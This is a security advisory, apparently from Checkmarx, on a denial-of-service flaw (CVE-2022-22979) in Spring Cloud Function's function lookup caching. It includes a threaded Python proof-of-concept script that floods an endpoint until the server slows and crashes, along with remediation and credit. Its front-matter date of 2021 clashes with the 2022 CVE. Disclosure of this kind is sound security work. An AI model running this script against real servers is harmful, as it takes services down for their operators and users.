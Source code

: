 ```yaml
---
title: DoS in Spring Cloud Function
date: 2021-06-17
tags:
	- "java"
	- "dos"
	- "denial of service"
advisory: true
origin: https://advisory.checkmarx.net/advisory/CX-2022-5009/
cves:
	- "CVE-2022-22979"
---
```

## Summary
In Spring Cloud Function versions 3.2.5 and older unsupported versions, it is possible for a user who directly interacts with framework provided lookup functionality to cause denial of service condition due to the caching issue in Function Catalog component of the framework. At the time of writing of this CVE such interaction is only possible via spring-cloud-function-web module.

## Product
Spring Cloud Function versions before 3.2.6.

## Impact
In case the web endpoint for function invocation is open a DoS could be achieved.

## Steps to reproduce
```
import threading
def a():
	for i in range(100000):
		response =requests.post(f"http://host/uppercase,", json={'a':1})
		if i%100 == 0:
			print(response.elapsed.total_seconds()) 

for i in range(10):
	threading.Thread(target=a).start()
	if i ==9:
		a()

```
* replace the name of the function (`uppercase`) with a function that exists

### Expected result:
The time for a response will rise and eventually crash the server.

## Remediation
Update Spring Cloud Function to 3.2.6 or above.

## Credit
This issue was discovered and reported by Checkmarx SCA Security Researcher [Yaniv Nizry](https://twitter.com/ynizry).

## Resources
1. [Official advisory](https://tanzu.vmware.com/security/cve-2022-22979)
2. [Commit](https://github.com/spring-cloud/spring-cloud-function/commit/9b6952f041ed028aba1165a55f38589ec6a93c09)